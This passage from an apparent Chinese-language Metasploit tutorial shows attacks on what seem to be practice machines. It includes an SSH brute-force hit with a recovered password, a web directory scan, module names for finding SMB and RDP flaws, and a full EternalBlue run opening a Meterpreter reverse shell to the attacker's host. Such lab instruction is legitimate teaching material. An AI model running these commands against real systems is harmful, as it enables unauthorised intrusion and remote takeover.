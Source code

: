 ```sh
[+] 10.9.65.178:22 - Success: 'flag4:orange' 'uid=1001(flag4) gid=1001(flag4) groups=1001(flag4) Linux DC-1 3.2.0-6-
486 #1 Debian 3.2.102-1 i686 GNU/Linux '
[*] Command shell session 1 opened (10.9.65.228:40151 -> 10.9.65.178:22) at 2021-05-09 22:53:35 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/ssh/ssh_login) >
```

> 网站敏感目录扫描
>
> 可以借助Metasploit 中的辅助模块来进行敏感目录扫描。他们主要使用暴力猜解的方式工作，注意此处需要提供一个目录字典

```sh
msf6 > use auxiliary/scanner/http/dir_scanner
msf6 auxiliary(scanner/http/dir_scanner) > set RHOSTS 10.9.65.178
RHOSTS => 10.9.65.178
msf6 auxiliary(scanner/http/dir_scanner) > set THREADS 50
THREADS => 50
msf6 auxiliary(scanner/http/dir_scanner) > run
```

> 扫描内网中存在特定漏洞的主机
>
> windows

```sh
exploit/windows/smb/ms08_067_netapi
auxiliary/scanner/smb/smb_ms17_010
auxiliary/scanner/rdp/cve_2019_0708_bluekeep
```

---

> 主动渗透攻击
>
> 以永恒之蓝为例

```sh
msf6 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.9.65.224
RHOSTS => 10.9.65.224
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
...
[+] 10.9.65.224:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.9.65.224:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.9.65.224:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Meterpreter session 2 opened (10.9.65.228:4444 -> 10.9.65.224:58943) at 2021-05-09 23:11:58 -0400
meterpreter >
```

---
